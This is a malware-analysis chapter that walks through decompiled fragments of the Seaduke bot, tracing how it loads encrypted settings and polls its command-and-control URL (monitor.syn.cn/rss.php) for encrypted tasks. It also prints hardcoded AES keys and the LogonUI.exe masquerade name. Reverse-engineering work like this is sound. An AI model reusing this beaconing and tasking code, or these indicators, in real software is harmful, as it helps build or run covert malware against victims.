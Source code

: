 # fetching instructions from the mothership
`main()` asks `networkHandleKlass` to get tasks:
```python
def main():
    ...
    networkTasks = networkHandleKlass.get_tasks()


class NetworkHandlerKlass(object):
    
    def get_tasks(self):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1476
        ...
        for _ in range(botKlass.total_hosts):
            for _ in range(botKlass.total_transports):
                for _ in range(3):
                    networkTasks=[]
                    try:
                        response_data = self.__send_request(id=botKlass.bot_id)  # bot_id is unique to bot, randomly generated
                        decoded_response = self.decode_data(response_data)  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQizDy renamed to decoded_response, decoced response is a dict
                        if not 'tasks' in decoded_response:
                            return []
                        decoded_tasks = decoded_response['tasks']
                        for networkTask in decoded_tasks:
                            if 'task_data' in networkTask and networkTask['task_data']:
                                networkTask['task_data'] = my_cryptoklass.decode_data(networkTask['task_data'])
                                networkTasks.append(networkTask)
                        botKlass.is_first_request = False
                        return networkTasks  # a list of dict
```
## request information from remote server
this is a critical part since it is where botKlass requests and receives instructions with `NetworkHandlerKlass.__send_request` method:
```python
class NetworkHandlerKlass(object):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1367
    ...
    def __send_request(self, **x):
        url = x.pop('url', self.url)  #  Syntax : dict.pop(key, def) Parameters : key : The key whose key-value pair has to be returned and removed. def : The default value to return if specified key is not present. 
        ...
        else:
            ...
            header = urllib2_build_opener()
            header.addheaders=[('User-agent', self.user_agent)]
            
            if encoded_cookie_data:
                header.addheaders.append(('Cookie', encoded_cookie_data))
            ...
            d = header.open(url)
            res = d.read()
            e = d.info().get('Content-Encoding')
            if e:
                res = CryptoKlass.unpack_data(res, e)
        return res
```
### what is the `url`?
since `NetworkHandlerKlass` wasnt provided with an url, we rely on its url.
```python
class NetworkHandlerKlass(object):

    def __init__(self,**f):
        self.__url = f.get('url', None)

    @property
    def url(self):
        return self.__url if self.__url else botKlass.current_host
```
since `self.__url = None`, we look at `botKlass.current_host`s attribute:
```python
class BotKlass(object):

    def __init__(self):
        self.__settings = self.__load_settings()
    
    @property
    def current_host(self):
        return self.__settings['host_scripts'][self.__current_host_index]
```
which means executing `self.__load_settings()`:
```python
class BotKlass(object):
    ...
    def __load_settings(self):
        settings_file_path = self.settings_file_path
        d = {}  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTziQeD replaced to d
        if not os_path.exists(settings_file_path):
            d = get_default_settings()
        else:
            try:
                with open(settings_file_path,'rb')as settings_file:
                    bot_settings = get_default_settings()
                    v_crypto_aes_key = bot_settings['keys']['aes']
                    v_crypto_aes_iv = bot_settings['keys']['aes_iv']
                    c = CryptoKlass(v_crypto_aes_key,v_crypto_aes_iv)
                    k = c.decrypt(settings_file.read())
                    d = json_loads(k)
            except Exception as e:
                pass
                os_remove(settings_file_path)
                d = get_default_settings()
        return d
```
this calls the following for `settings_file_path`, which [creates a file path](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/save.md) based on the bot's `key_id` (the key_id is defined in `bot_settings`):
```python
class BotKlass(object):
    ...
    @property
    def settings_file_path(self):
        key_id = get_default_settings()['key_id']  # hardcoded as P4BNZR0
        if v_sys_platform.startswith('win'):
            w ='tmp' + key_id.lower()
        else:
            w ='.'+key_id
        y = tempfile_gettempdir()
        if v_sys_platform.startswith('win'):
            z=ctypes.windll.shell32.SHGetFolderPathW
            z.argtypes=[ctypes.wintypes.HWND,ctypes.c_int,ctypes.wintypes.HANDLE,ctypes.wintypes.DWORD,ctypes.wintypes.LPCWSTR]
            a=ctypes.wintypes.create_unicode_buffer(ctypes.wintypes.MAX_PATH)
            z(0,0x1C,0,0,a)
            y=a.value
        return os_path.join(y, w)
```
which calls `get_default_settings()`, which returns a [dict called `bot_settings`](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/bot_settings.md):
```python
bot_settings=json_loads(zlib_decompress(base64_b64decode('sxxxxx')))

def get_default_settings():
    return bot_settings
```
if we look at the dict `bot_settings` we see the following (for an [in-depth look](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/bot_settings.md):
```python
```python
{'first_run_delay': 0,
'keys': {'aes': 'KIjbzZ/ZxdE5KD2XosXqIbEdrCxy3mqDSSLWJ7BFk3o=', 'aes_iv': 'cleUKIi+mAVSKL27O4J/UQ=='},
'autoload_settings': {'exe_name': 'LogonUI.exe', 'app_name': 'LogonUI.exe', 'delete_after': False},
'host_scripts': ['http://monitor.syn.cn/rss.php'],
'referer': 'https://www.facebook.com/',
'user_agent': 'SiteBar/3.3.8 (Bookmark Server; http://sitebar.org/)',
'key_id': 'P4BNZR0',
'enable_autoload': False}
```
since we were interested in `host_scripts`:
```python
class BotKlass(object):

    def __init__(self):
        self.__settings = self.__load_settings()
    
    @property
    def current_host(self):
        return self.__settings['host_scripts'][self.__current_host_index]
```
we now know `url` points to http://monitor.syn.cn/rss.php.

## we have the url, now what?
as a reminder, we were evaluating `self.__send_request()`:
```python
class NetworkHandlerKlass(object):
    def get_tasks(self):
        ...
		response_data=self.__send_request(id=botKlass.bot_id)
        ...

    def __send_request(self, **x):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1446
        ...
        else:
            pass
            header = urllib2_build_opener()
            header.addheaders=[('User-agent',self.user_agent)]
            
            if encoded_cookie_data:
                header.addheaders.append(('Cookie', encoded_cookie_data))
            
            if self.referer:
                pass

            d = header.open(url)
            res = d.read()
            e = d.info().get('Content-Encoding')
            if e:
                res = CryptoKlass.unpack_data(res,e)
        return res
```
when we ask `NetworkHandlerKlass` to `__send_request`, it will receive data from http://monitor.syn.cn/rss.php.
